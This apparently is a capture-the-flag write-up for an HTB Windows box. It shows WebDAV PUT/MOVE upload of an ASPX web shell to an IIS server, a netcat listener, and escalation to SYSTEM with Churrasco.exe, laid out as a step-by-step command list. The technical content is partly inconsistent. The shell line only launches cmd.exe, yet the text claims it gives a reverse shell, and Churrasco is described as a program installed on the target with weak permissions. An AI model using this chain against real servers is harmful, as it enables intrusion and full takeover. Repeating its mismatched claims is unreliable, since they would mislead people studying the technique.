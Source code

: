 #  Escape

## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB) 
- **Exploits Used**:  
  - Protocol WebDAV PUT/MOVE  
  - File extension bypass via `.txt → .aspx`  
  - Local PrivEsc using `Churrasco.exe`  
- **Open Ports:**  
  - [HTTP](HTTP) 80/tcp  

---

## TLDR 🚀
- **Find** WebDAV enabled on the web server (allows PUT/MOVE).  
- **Upload** a simple ASPX web‑shell disguised as `.txt`, then **MOVE** it to `.aspx`.  
- **Invoke** the shell for remote code execution and grab a low‑privilege shell.  
- **Enumerate** locally, discover `Churrasco.exe` installed with weak permissions.  
- **Run** `Churrasco.exe` to escalate to SYSTEM.  

---

## Recon & Enumeration 🕵️‍♂️

1. **Port scan** (HTTP only):  
   ```bash
   nmap -p80 --script http-methods --script-args http-methods.url-path=/ 10.129.83.212
   ```
   - Shows `OPTIONS`, `GET`, `HEAD`, **`PUT`**, **`MOVE`**, etc. indicating WebDAV support.

2. **Directory brute-forcing** (optional):  
   ```bash
   gobuster dir -u http://10.129.83.212/ -w /usr/share/wordlists/common.txt -x txt,aspx
   ```
   - No obvious upload form—WebDAV is the vector.

3. **Confirm WebDAV** with a simple `OPTIONS` request:  
   ```bash
   curl -i -X OPTIONS http://10.129.83.212/
   ```
   - Look for `DAV: 1,2` in the response headers.

---

## Exploitation 🚀

### 1. WebDAV Upload & File‑Extension Bypass  
1. **Craft** a minimal ASPX web‑shell (`shell.txt`):
   ```asp
   <% System.Diagnostics.Process.Start("cmd.exe"); %>
   ```
2. **Upload** it to the server (anonymous WebDAV):
   ```bash
   curl -v -T shell.txt http://10.129.83.212/shell.txt
   ```
3. **Rename** it to `.aspx` so IIS will execute it:
   ```bash
   curl -v -X MOVE \
     -H "Destination: http://10.129.83.212/shell.aspx" \
     http://10.129.83.212/shell.txt
   ```
4. **Trigger** the shell:
   - Point your browser or use `curl`:
     ```bash
     curl http://10.129.83.212/shell.aspx
     ```
   - You’ll get a **reverse shell** if you’ve got a listener ready.

5. **Listener** on your machine:
   ```bash
   nc -lvnp 4444
   ```
   - Connects back as a low‑privilege Windows user.

---

## Local Privilege Escalation 🔒 → 🔓

1. **Basic enumeration**:
   ```powershell
   whoami /priv
   dir "C:\Program Files" | findstr /i Churrasco
   ```
2. **Discover** `C:\Program Files\Churrasco\Churrasco.exe` with **weak ACLs** (everyone can execute).
3. **Exploit** with the official tool:
   ```powershell
   cd "C:\Program Files\Churrasco"
   .\Churrasco.exe
   ```
   - This leverages a known COM/UAC bypass to spawn a SYSTEM shell.
4. **Verify** SYSTEM:
   ```powershell
   whoami
   # → nt authority\system
   ```

---

## Tools 🛠️
- **nmap** – port & WebDAV enumeration  
- **gobuster** – directory brute‑forcing  
- **curl** – WebDAV PUT/MOVE & shell trigger  
- **netcat** – reverse shell listener  
- **Churrasco.exe** – local PrivEsc  

---

## Commands to Solve Box 📝

```bash
# 1. Scan for WebDAV support
nmap -p80 --script http-methods --script-args http-methods.url-path=/ 10.129.83.212

# 2. Upload web‑shell disguised as .txt
curl -v -T shell.txt http://10.129.83.212/shell.txt

# 3. Rename to .aspx
curl -v -X MOVE \
  -H "Destination: http://10.129.83.212/shell.aspx" \
  http://10.129.83.212/shell.txt

# 4. Trigger shell (in another terminal)
nc -lvnp 4444

# 5. On the box, enumerate for Churrasco.exe
whoami & whoami /priv
dir "C:\Program Files" | findstr /i Churrasco

# 6. Run Churrasco for SYSTEM
cd "C:\Program Files\Churrasco"
.\Churrasco.exe
whoami  # should return nt authority\system
```

---

## Actions Learned 💡
- How to **leverage WebDAV** on IIS for anonymous file upload (PUT/MOVE).  
- Trick IIS into executing a file by **bypassing extension restrictions** (`.txt` → `.aspx`).  
- Basic Windows **local enumeration** to spot weakly‑permissioned binaries.  
- Use of **Churrasco.exe** for UAC/COM bypass to escalate from a regular user to SYSTEM.

---

## References 📚
- WebDAV PUT/MOVE on IIS:  
  – https://docs.microsoft.com/en-us/iis/configuration/system.webserver/webdav  
- HTTP Methods enumeration with Nmap:  
  – https://nmap.org/nsedoc/scripts/http-methods.html  
- Churrasco Privilege Escalation:  
  – https://github.com/adamd00/Churrasco  
- HTB WebDAV write‑up examples:  
  – https://0xdf.gitlab.io/ (for inspiration)  